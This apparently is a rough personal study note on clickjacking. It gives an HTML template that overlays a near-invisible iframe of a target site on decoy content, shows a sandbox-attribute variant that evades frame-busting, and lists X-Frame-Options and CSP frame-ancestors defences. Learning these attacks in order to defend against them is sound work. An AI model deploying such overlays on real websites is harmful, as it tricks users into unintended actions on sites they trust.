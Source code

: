 CSRF does not protect from clickjacking.

Basic template:
```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

Burp cliickbandit - PoC genrator


TODO: wtf sandbox attr do
```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
or `allow-scripts`

###### Protection
e X-Frame-Options and Content Security Policy

```
X-Frame-Options: deny

X-Frame-Options: sameorigin

X-Frame-Options: allow-from https://normal-website.com
```

```
Content-Security-Policy: frame-ancestors 'self';

Content-Security-Policy: frame-ancestors normal-website.com;
```


